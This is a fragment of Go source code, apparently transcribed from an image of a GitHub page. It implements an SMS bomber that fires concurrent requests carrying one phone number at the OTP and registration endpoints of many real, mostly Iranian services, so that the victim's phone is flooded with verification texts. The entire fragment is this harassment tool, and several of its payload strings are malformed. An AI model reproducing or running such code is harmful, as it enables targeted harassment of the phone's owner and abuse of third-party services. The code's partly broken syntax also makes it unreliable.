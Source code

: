 		go sms("https://api.watchonline.shop/api/v1/otp/request", map[string]interface{}{
			"mobile": phone,
		}, ch)
		s1 := fmt.Sprintf("'phoneNumber':%s ,'email':''", phone)
		go sms("https://abantether.com/users/register/phone/send/", map[string]interface{}{
			s1: phone,
		}, ch)
		s2 := fmt.Sprintf("'userKey':'98-'%s ,'userKeyType': 1", phone)
		go sms("https://flightio.com/bff/Authentication/CheckUserKey", map[string]interface{}{
			s2: phone,
		}, ch)
		s3 := fmt.Sprintf("'api_version': '3', 'method': 'sendCode', 'data': {'phone_number': %s, 'send_type': 'SMS'}", phone)
		go sms("https://shadmessenger12.iranlms.ir/", map[string]interface{}{
			s3: phone,
		}, ch)
		s4 := fmt.Sprintf("'grant_type':'otp','client_id':'62b30c4af53e3b0cf100a4a0','phone': %s", phone)
		go sms("https://agent.wide-app.ir/auth/token", map[string]interface{}{
			s4: phone,
		}, ch)
		s5 := fmt.Sprintf("'credential': {'phoneNumber': %s, 'role': 'PASSENGER'}", phone)
		go sms("https://tap33.me/api/v2/user", map[string]interface{}{
			s5: phone,
		}, ch)
		s8 := fmt.Sprintf("'operationName':'Mutation','variables':{'content':{'phone_number':%s,query':'mutation Mutation($content: MerchantRegisterOTPSendContent) {\n  merchantRegister {\n    otpSend(content: $content)\n    __typename\n  }\n}'", phone)
		go sms("https://apollo.digify.shop/graphql", map[string]interface{}{
			s8: phone,
		}, ch)
		go sms(fmt.Sprintf("https://api.snapp.market/mart/v1/user/loginMobileWithNoPass?cellphone=%v", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		go sms(fmt.Sprintf("https://auth.mrbilit.com/api/login/exists/v2?mobileOrEmail=%v&source=2&sendTokenIfNot=true", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		s10 := fmt.Sprintf("'mobile': %s, 'country_code': 'IR', 'provider_code': 'RUBIKA'", phone)
		go sms("https://api.chartex.net/api/v2/user/validate", map[string]interface{}{
			s10: phone,
		}, ch)
		s11 := fmt.Sprintf("'lang': 'fa', 'country_id': '860', 'password': 'snaptrippass', 'mobile_phone': %s, 'country_code': '+98', 'email': 'example@gmail.com'}", phone)
		go sms("https://www.snapptrip.com/register", map[string]interface{}{
			s11: phone,
		}, ch)
		go sms(fmt.Sprintf("https://api-v2.filmnet.ir/access-token/users/%v/otp", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		s13 := fmt.Sprintf("'phone': %s,'captcha_token': ''", phone)
		go sms("https://api.bitpin.ir/v1/usr/sub_phone/", map[string]interface{}{
			s13: phone,
		}, ch)
		s14 := fmt.Sprintf("'mobile': %s,'origin': '/'','referrer_id': ''", phone)
		go sms("https://chamedoon.com/api/v1/membership/guest/request_mobile_verification", map[string]interface{}{
			s14: phone,
		}, ch)
		s15 := fmt.Sprintf("'mobile': %s, 'country_code': '+98'", phone)
		go sms("https://www.shab.ir/api/fa/sandbox/v_1_4/auth/enter-mobile", map[string]interface{}{
			s15: phone,
		}, ch)